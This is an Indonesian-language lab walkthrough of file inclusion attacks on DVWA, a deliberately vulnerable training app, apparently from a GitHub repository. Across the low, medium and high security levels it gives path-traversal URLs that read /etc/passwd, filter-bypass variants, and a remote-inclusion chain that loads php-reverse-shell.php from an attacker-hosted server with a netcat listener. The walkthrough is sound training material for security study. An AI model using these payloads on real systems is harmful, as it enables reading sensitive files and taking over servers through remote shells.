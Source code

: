 # File Inclusion
File Inclusion Attack adalah jenis celah keamanan web yang memungkinkan penyerang mengakses file sensitif di server atau memungkinkan mereka untuk menjalankan file berbahaya di server mereka.

## Security Low
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=file4.php
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%205.JPG)

```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%206.JPG)

Membuka isi file **/etc/passwd** di server
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%207.JPG)

Menjalankan file **php-reverse-shell.php** ke server
```sh
python3 -m http.server 80
```
```sh
nc -lnvp <port>
```
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=http://<IP_Attacker>/php-reverse-shell.php
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2034.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%2035.JPG)

## Security Medium
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=....//....//hackable/flags/fi.php
```

Membuka isi file **/etc/passwd** di server
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```

Menjalankan file **php-reverse-shell.php** ke server
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=hthttp://tp://<IP_Attacker>/php-reverse-shell.php
```

## Security High
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/flags/fi.php
```

Membuka isi file **/etc/passwd** di server
```sh
http://<IP_Server>/DVWA/vulnerabilities/fi/?page=file:///etc/passwd
```

